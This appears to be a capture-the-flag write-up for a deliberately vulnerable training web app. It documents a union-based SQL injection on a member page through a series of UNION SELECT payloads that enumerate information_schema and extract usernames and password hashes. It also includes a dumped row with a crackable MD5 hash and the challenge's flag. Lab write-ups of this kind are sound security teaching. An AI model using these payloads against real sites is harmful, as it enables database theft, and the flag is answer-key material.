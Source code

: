 # UNION BASED SQL INJECTION

## Flag
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Discovery
go to ==> http://{IP_ADDRESS}/index.php?page=member


https://www.sqlinjection.net/table-names/

-1 UNION ALL SELECT table_name,concat(column_name) FROM information_schema.COLUMNS 

Get database names:
>Retrieve database names:
>	-1 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata--
>Retrieve tables names:
>	-1 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='Member_Sql_Injection'--
-1 UNION ALL SELECT table_name,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='table1'

-1 UNION SELECT username, password FROM db_default WHERE username=admin
-1 UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='users'
-1 UNION SELECT first_name, countersign FROM users
-1 UNION SELECT username, password FROM db_default WHERE user_id=5


| user_id | first_name | last_name | town | country | planet | commentaire                                                                   | countersign |
| ------- | ---------- | --------- | ---- | ------- | ------ | ----------------------------------------------------------------------------- | ----------- |
|   5     | flag       | GetThe    |  42  |    42   |   42   | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |

## Helpers:
- [retrieve data from db](https://www.sqlinjection.net/table-names/)
- [dcode - cipher identifier](https://www.dcode.fr/cipher-identifier)
- [md5decrypt - md5](https://md5decrypt.net/en/)
